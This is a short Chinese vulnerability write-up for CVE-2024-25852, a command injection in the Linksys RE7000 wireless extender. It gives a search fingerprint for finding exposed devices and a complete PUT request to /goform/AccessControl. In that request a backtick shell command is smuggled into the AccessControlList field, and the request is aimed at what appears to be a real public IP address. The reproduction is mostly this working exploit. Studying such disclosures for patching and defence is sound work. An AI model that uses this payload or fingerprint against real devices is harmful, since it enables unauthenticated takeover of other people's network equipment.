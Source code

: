 # Linksys-RE7000无线扩展器RCE(CVE-2024-25852)

### 一、漏洞描述
<font style="color:#000000;">Linksys RE7000无线扩展器在访问控制功能点的AccessControlList参数中存在命令执行漏洞。未经身份验证的远程攻击者可以利用该漏洞获取设备管理员权限。</font>

### 二、影响版本
<font style="color:#000000;">Linksys RE7000无线扩展器</font>

### 三、资产测绘
body="/login.shtml?ran="

![1718333560229-60861c15-6d19-413d-86ff-12a39b9c2c6d.png](./img/vv1PxtfgpgbamSsw/1718333560229-60861c15-6d19-413d-86ff-12a39b9c2c6d-984843.png)

界面

![1718333587335-4900165d-3c0a-4a16-8a8f-b793b87f79c8.png](./img/vv1PxtfgpgbamSsw/1718333587335-4900165d-3c0a-4a16-8a8f-b793b87f79c8-026376.png)

### 四、漏洞复现
```plain
PUT /goform/AccessControl HTTP/1.1
Host: 121.137.162.121
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 87

{"AccessPolicy":"0","AccessControlList":"`ip a>/etc_ro/lighttpd/RE7000_www/qqi.txt`"}

```

构造语句进行发送

![1718333420542-224485fe-1557-444d-988e-e192f2531b3a.png](./img/vv1PxtfgpgbamSsw/1718333420542-224485fe-1557-444d-988e-e192f2531b3a-604259.png)访问qqi.txt，这个文件，获取相关信息。

![1718333496307-c39af445-f271-4b7f-838a-d9a88beee01f.png](./img/vv1PxtfgpgbamSsw/1718333496307-c39af445-f271-4b7f-838a-d9a88beee01f-602094.png)



> 更新: 2024-06-23 23:46:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zdaghns0azgvr8ns>